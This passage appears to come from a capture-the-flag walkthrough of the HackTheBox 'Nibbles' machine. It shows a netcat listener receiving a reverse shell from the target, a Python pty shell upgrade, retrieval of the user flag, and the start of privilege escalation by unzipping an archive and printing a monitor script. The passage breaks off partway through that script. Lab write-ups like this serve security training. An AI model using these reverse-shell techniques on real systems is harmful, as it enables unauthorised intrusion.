```
-[Wed Feb 14-10:12:49]-[table@parrot]-
-[~]$ nc -lnvp 9443
listening on [any] 9443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.75] 57830
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

Let's upgrade our shell to a "nicer" shell:

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler
<ml/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler            
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
```

Retrieve user flag:

```
nibbler@Nibbles:/home/nibbler$ cat user.txt	
```

***

## Privilege Escalation

We can unzip the `personal.zip` file in the `/home/nibbler` directory so lets do that:

```
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
```

We see a file called `monitor.sh`

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
cat monitor.sh
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using

```